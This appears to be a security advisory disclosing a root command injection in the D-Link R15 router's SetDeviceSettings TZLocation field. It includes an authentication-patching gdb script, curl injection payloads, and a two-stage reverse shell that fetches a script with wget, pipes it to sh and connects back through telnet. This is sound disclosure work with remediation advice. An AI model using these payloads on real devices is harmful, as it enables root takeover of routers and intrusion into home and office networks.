





# D-Link R15 Eagle Pro AI AX1500 Smart Router

- Vendor: D-Link
- Product: R15
- Model: Eagle Pro AI AX1500 (MT7621)
- Firmware version: 1.22.01 (`R15A1_FW122B01.bin`)
- Vulnerability type: Post-authentication command injection

# Description

The DHMAPI (SOAP over HTTPS) interface of the D-Link R15 Eagle Pro AI AX1500 smart router (firmware version 1.22.01) contains a command injection vulnerability in its handling of `SetDeviceSettings` requests. The user-controllable `<TZLocation>` field (time zone) is stored into a configuration structure and then concatenated into an **unquoted** shell command by the backend `save_CSID_SetDeviceSettings`, which executes it via `system()`:

```
(fota -T <TZLocation>; fota -I; fota -fQ) &
```

Because the `<TZLocation>` value is concatenated without quoting, an attacker can inject `$( )` command substitution into the value. The shell evaluates the injected content before executing the concatenated command, thereby executing arbitrary commands with **root (uid=0)** privileges.

The attack requires a valid Web management session obtained through authentication (the `SetDeviceSettings` action's auth flag in the dispatch table is `0x01000000`). Weak default credentials or a potential authentication bypass on the device further amplify this vulnerability and enlarge the real-world attack surface.

# Impact

An authenticated attacker can execute arbitrary commands with **root** privileges, gaining full control of the device — including reading sensitive configuration, exporting a full configuration backup, implanting a persistent backdoor, establishing a reverse shell, and pivoting into the internal network for lateral movement.

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the Web management backend binary `/bin/httpd` (~900 KB, **running as root**), which implements the DHMAPI SOAP interface, page serving, and HNAP/DHMAPI protocol parsing.

**Taint source** — the `SetDeviceSettings` action handler (`sub_470D80` in httpd, which assembles 4 fields into a structure):

```c
memset(a3, 0, 216);
sub_422DE4(a3, DeviceName, 65);            // +0    = DeviceName
sub_424F18(..., a3 + 65, ...);             // +65   = AdminPassword
*(_DWORD *)(a3 + 168) = ChangePassword;    // +168  = flag
snprintf(a3 + 172, 33, "%s", TZLocation);  // +172  = TZLocation (32-char limit)
```

`TZLocation` is extracted from the SOAP request with a 32-character length cap — this is merely a buffer-size limit, **not** a security check, and **no shell metacharacter sanitization or escaping** is applied.

**Taint sink** — `save_CSID_SetDeviceSettings` (`sub_470F24`) concatenates TZLocation into a command and passes it to the vendor's command-execution wrapper:

```c
v18 = (const char *)(a1 + 172);            // = TZLocation
write_csman_str(..., 458753, v18);
exec_cmd(v19, "ws-hnap/SetDeviceSettings.c", "save_CSID_SetDeviceSettings", 233,
         "(fota -T %s; fota -I; fota -fQ) &", v18);   // ★ %s unquoted
```

Call chain: `exec_cmd` → `vsnprintf` (build full command) → `pox_system` → `system()` → `/bin/sh -c "<built command>"`. Because `%s` is unquoted, the `$( )` command substitution is evaluated before shell execution; since httpd runs as root, the injected command executes with root privileges.

**Exploitation constraints (verified):**

| Constraint | Verification result |
|---|---|
| Field length | ≤ 32 bytes (`snprintf(a3+172, 33, ...)`) |
| Injection syntax | `$(cmd)` verified; backticks `` `cmd` `` expected to work as well |
| Execution context | `uid=0(root) gid=0(root)` |
| Output channel | No direct echo; redirect to web root `/tmp/www3` then retrieve via HTTP GET |

## 2. Authentication Prerequisites

The `SetDeviceSettings` entry in the action dispatch table is located at `0x4ee310`; its auth flag byte (`0x4ee314` at `+0x04`) is `0x01000000` (=1, session required). The auth logic in the DHMAPI dispatch main function `sub_42131C`:

```c
if (!*((_BYTE *)v3 + 4)) return 0;   // only dispatch directly if auth flag == 0
sub_423A60();
v6 = sub_423A80(a1 + 17);            // look up session by Cookie
if (!v6 || !sub_4240B8(v6, a1))      // session exists + password check
    a1[68] = 401;
```

Therefore this is a **post-authentication** vulnerability: a valid login session is required to trigger it.

> **Emulation scaffold note**: The FirmAE-emulated R15 is in an "unconfigured factory state" (the UBIFS config partition is not mounted; the csman password field is empty), so real login (including empty-password) cannot establish a session. To verify the vulnerability, this report uses gdbserver + gdb-multiarch to patch two auth functions to `return 1` and to clear the dispatch-table auth flag, **simulating the "authenticated" state** — this is only a test scaffold and does not affect the validity of the vulnerability (on a real device it is triggered after logging in with real admin credentials).

```bash
# ============ Full auth-patch script (save as r15_patch_auth.sh, then run: sudo bash r15_patch_auth.sh) ============
#!/bin/bash
# Run on the emulation host (192.168.35.137). Patch R15 httpd auth to simulate an authenticated session (factory state has no password; test scaffold only)
# Prerequisite: R15 is running under FirmAE (IID=9, httpd listening on 80/443)
set -u

IID=9
SOCK=/tmp/qemu.${IID}.S1

# ---- Serial-console helper (non-interactive; numeric token = sleep seconds; command token must end with \n) ----
SERIAL_PY=/tmp/serial.py
if [ ! -f "$SERIAL_PY" ]; then
  cat > "$SERIAL_PY" << 'PYEOF'
import socket, time, sys, re
SOCK = sys.argv[1]; seq = sys.argv[2]
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM); s.connect(SOCK); s.settimeout(0.3)
out = b""
for tok in seq.split("|"):
    if tok == "": continue
    if re.fullmatch(r"[0-9]+(\.[0-9]+)?", tok):
        time.sleep(float(tok)); continue
    b = bytes(tok, "utf-8").decode("unicode_escape").encode("latin1")
    s.sendall(b); time.sleep(0.15)
    try:
        d = s.recv(8192)
        if d: out += d
    except socket.timeout: pass
end = time.time() + 2.0
while time.time() < end:
    try:
        d = s.recv(8192)
        if not d: break
        out += d
    except socket.timeout: continue
s.close(); print(out.decode("utf-8", "replace"))
PYEOF
fi

serial() { python3 "$SERIAL_PY" "$SOCK" "$1"; }

echo "[*] IID=$IID  socket=$SOCK"

# 1. Get httpd PID
HPID=$(serial "pidof httpd\n|1" | grep -oE '[0-9]+' | head -1)
if [ -z "$HPID" ]; then echo "[!] httpd not running; confirm the emulation is up first"; exit 1; fi
echo "[*] httpd PID = $HPID"

# 2. Start gdbserver (detach via FirmAE's busybox setsid to avoid SIGHUP on serial disconnect)
serial "kill -9 \$(pidof gdbserver) 2>/dev/null\n|0.5|/firmadyne/busybox setsid /firmadyne/gdbserver :9999 --attach $HPID >/tmp/gdb.log 2>&1 &\n|2"
sleep 1

# 3. gdb-multiarch patch
echo "[*] patching auth..."
gdb-multiarch -batch \
  -ex "set architecture mips:isa32" -ex "set endian big" \
  -ex "target remote 192.168.0.1:9999" \
  -ex "set {unsigned int}0x4240b8 = 0x24020001" \
  -ex "set {unsigned int}0x4240bc = 0x03e00008" \
  -ex "set {unsigned int}0x4240c0 = 0x00000000" \
  -ex "set {unsigned int}0x423758 = 0x24020001" \
  -ex "set {unsigned int}0x42375c = 0x03e00008" \
  -ex "set {unsigned int}0x423760 = 0x00000000" \
  -ex "set {unsigned char}0x4eecd4 = 0" \
  -ex "set {unsigned char}0x4eecec = 0" \
  -ex "set {unsigned char}0x4ee314 = 0" \
  -ex "x/3i 0x4240b8" \
  -ex "detach" -ex "quit" 2>&1 | grep -E "0x4240b8|li\s+v0,1|jr\s+ra|nop" | head -6

echo "[+] Done. 0x4240b8/0x423758 patched to li v0,1; jr ra; nop; SetDeviceSettings auth flag cleared"
echo "[+] You can now trigger injection via curl (see §3 step 2)"
```

Patch contents (addresses for R15 v1.22.01 big-endian, each verified against function prologue / dispatch table):

| Address | Meaning | After patch |
|---|---|---|
| `0x4240b8` | `sub_4240B8` session password check | `li v0,1; jr ra; nop` |
| `0x423758` | `sub_423758` action ACL check | `li v0,1; jr ra; nop` |
| `0x4ee314` | `SetDeviceSettings` auth flag byte | `0x00` (cleared) |

## 3. Proof of Concept (PoC)

> Environment: FirmAE full-system emulation (IID=9, MIPS big-endian), device IP `192.168.0.1`. All commands below run directly on the emulation host (VM).

### Step 1 — Patch authentication (simulate authenticated)

```bash
sudo bash r15_patch_auth.sh
```



### Step 2 — Command injection (write output to web root)

```http
POST /DHMAPI/ HTTP/1.1
Host: 192.168.0.1
Content-Type: text/xml; charset=utf-8
API-Action: SetDeviceSettings
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDeviceSettings xmlns="http://purenetworks.com/HNAP1/"><DeviceName>R15</DeviceName><AdminPassword></AdminPassword><ChangePassword>false</ChangePassword><TZLocation>$(id>/tmp/www3/m_id.txt)</TZLocation></SetDeviceSettings></soap:Body></soap:Envelope>
```

curl equivalent:

```bash
curl -sk -X POST "https://192.168.0.1/DHMAPI/" \
  -H "API-Action: SetDeviceSettings" -H "Content-Type: text/xml" \
  -d '<?xml version="1.0"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDeviceSettings xmlns="http://purenetworks.com/HNAP1/"><DeviceName>R15</DeviceName><AdminPassword></AdminPassword><ChangePassword>false</ChangePassword><TZLocation>$(id>/tmp/www3/m_id.txt)</TZLocation></SetDeviceSettings></soap:Body></soap:Envelope>'
# Returns: <SetDeviceSettingsResult>OK</SetDeviceSettingsResult>
```



### Step 3 — Retrieve command output

```
GET /m_id.txt HTTP/1.1
Host: 192.168.0.1
```

```bash
curl -sk "https://192.168.0.1/m_id.txt"
```

Observed response body:

```
uid=0(root) gid=0(root)
```



### Full exploitation — Reverse shell

The 32-character limit is bypassed via two-stage (wget download the script then execute):

1. Start HTTP service on VM (serving the script) + nc listener:

   ```bash
   mkdir -p /tmp/rx
   cat > /tmp/rx/x << 'EOF'
   rm -f /tmp/f; mknod /tmp/f p; (sh -i < /tmp/f 2>&1 | telnet 192.168.0.2 4444 > /tmp/f) &
   EOF
   cd /tmp/rx && sudo nohup python3 -m http.server 80 --bind 192.168.0.2 >/tmp/rx/http.log 2>&1 < /dev/null &
   nc -lvp 4444          # listen
   ```

   

2. Trigger the two-stage injection (payload `$(wget -qO- 192.168.0.2/x|sh)`, 29 characters):

   ```bash
   curl -sk -X POST "https://192.168.0.1/DHMAPI/" -H "API-Action: SetDeviceSettings" -H "Content-Type: text/xml" \
     -d '<?xml version="1.0"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDeviceSettings xmlns="http://purenetworks.com/HNAP1/"><DeviceName>R15</DeviceName><AdminPassword></AdminPassword><ChangePassword>false</ChangePassword><TZLocation>$(wget -qO- 192.168.0.2/x|sh)</TZLocation></SetDeviceSettings></soap:Body></soap:Envelope>'
   ```

3. Result: the nc listener receives an interactive root shell:

   ```
   BusyBox v1.23.2 (2025-09-05 ...) built-in shell (ash)
   /var/tmp/www3 # id
   uid=0(root) gid=0(root)
   /var/tmp/www3 # uname -a
   Linux (none) 4.1.17+ ... mips GNU/Linux
   ```



## 4. Root Cause Summary

1. `save_CSID_SetDeviceSettings` concatenates the `TZLocation` field into `exec_cmd("(fota -T %s; ...) &")` **without quoting**;
2. `exec_cmd → pox_system → system()` ultimately goes through `/bin/sh -c`, causing the shell to evaluate the `$()` command substitution in the value;
3. `httpd` runs as root, so the injected command executes with the highest privileges.

## 5. Remediation

- Apply strict allow-list validation (`[A-Za-z0-9_/+-]`) to hostname/timezone-type input fields such as `TZLocation` before storage;
- Replace `system()` string concatenation with the `exec*` family (which does not go through a shell), or shell-escape every `exec_cmd` argument;
- Audit and uniformly fix the same class of injection points (`DeviceName`, DDNS hostname/username, client `NickName`, etc.);
- Run the Web management service as a non-root (de-privileged) user;
- Enable CSRF protection + session binding on the management interface to reduce the trigger surface of post-auth vulnerabilities.
